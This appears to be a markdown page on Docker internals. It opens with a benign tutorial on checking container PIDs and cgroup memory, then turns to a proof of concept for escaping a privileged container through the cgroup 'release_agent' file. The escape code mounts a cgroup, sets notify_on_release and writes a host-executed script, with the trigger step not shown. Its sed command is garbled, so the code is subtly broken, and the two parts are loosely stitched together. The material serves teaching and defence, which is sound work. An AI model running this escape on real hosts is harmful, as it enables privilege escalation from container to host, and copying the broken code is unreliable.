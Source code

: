 Here is a hands-on example of using PID and Cgroup in a container:

Start a new container using the docker run command, specifying the image and any necessary arguments:

```bash
docker run -d --name my-web-server -p 8080:80 nginx


```
Check the PID of the main process inside the container by running the following command:

```bash
docker exec my-web-server ps -aux


```
This will display a list of processes running inside the container, including the PID of the main process (in this case, the nginx web server).

Check the Cgroup of the container by running the following command:

```bash

cat /sys/fs/cgroup/memory/docker/[CONTAINER ID]/memory.usage_in_bytes


```


This will display the current memory usage of the container in bytes.

By using PID and Cgroup, we can ensure that the processes and resources within the container are properly isolated and managed.



# Created Group release agent (container escape).
<br>
MITRE: Privilege Escalation

The PoC relied on another misconfiguration where the container has elevated privileges, either by the `--privileged` flag or the apparmor=unconfined flag. The escape can be triggered by an exploit using the Linux cgroups (control groups) mechanism and a ‘release_agent’ file.

Linux control groups are intended to allow multiple Docker containers to run in isolation while limiting and monitoring their use of resources. However, the ‘release_agent’ file contains a command that is executed by the kernel with full privileges on the host once the last task in a cgroup terminates. The PoC abuses this functionality by creating a ‘release_agent’ file with a malicious command, and then killing off all the tasks in the cgroup.

As the cgroup files are present both in the container and on the host, it is possible to modify them from either, which means an attacker can spawn a process inside the cgroup and gain code execution on the host.


```bash
# On the host

docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*perdir=([^,]*).*/1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```